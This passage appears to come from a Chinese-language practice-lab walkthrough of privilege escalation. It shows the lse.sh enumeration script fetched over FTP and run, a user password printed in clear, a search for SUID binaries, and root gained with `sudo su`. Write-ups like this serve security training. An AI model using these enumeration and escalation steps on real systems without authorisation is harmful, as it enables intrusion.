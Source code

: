 ## 3. 提权

直接通过FTP将工具下载到靶机上面，并运行查找提权方法

```bash
ftp> get lse.sh
local: lse.sh remote: lse.sh
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for lse.sh (54352 bytes).
226 Transfer complete.
54352 bytes received in 0.00 secs (24.7536 MB/s)
```

这里我们是有用户密码的，记得输入！

```bash
silky@ubuntu:~$ sh lse.sh 
---
If you know the current user password, write it here to check sudo privileges: Agy8Y7SPJNXQzqA   
```

这里显示可以不用密码登录

![image-20230904184207455](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20230904184207455.png)

联合`sudo`命令且我们知道了密码，所以直接`sudo su`提权

```bash
silky@ubuntu:~$ find / -perm -u=s -type f 2>/dev/null |grep "/usr/bin"
/snap/core18/1880/usr/bin/chfn
/snap/core18/1880/usr/bin/chsh
/snap/core18/1880/usr/bin/gpasswd
/snap/core18/1880/usr/bin/newgrp
/snap/core18/1880/usr/bin/passwd
/snap/core18/1880/usr/bin/sudo
/snap/core18/1705/usr/bin/chfn
/snap/core18/1705/usr/bin/chsh
/snap/core18/1705/usr/bin/gpasswd
/snap/core18/1705/usr/bin/newgrp
/snap/core18/1705/usr/bin/passwd
/snap/core18/1705/usr/bin/sudo
/usr/bin/chsh
```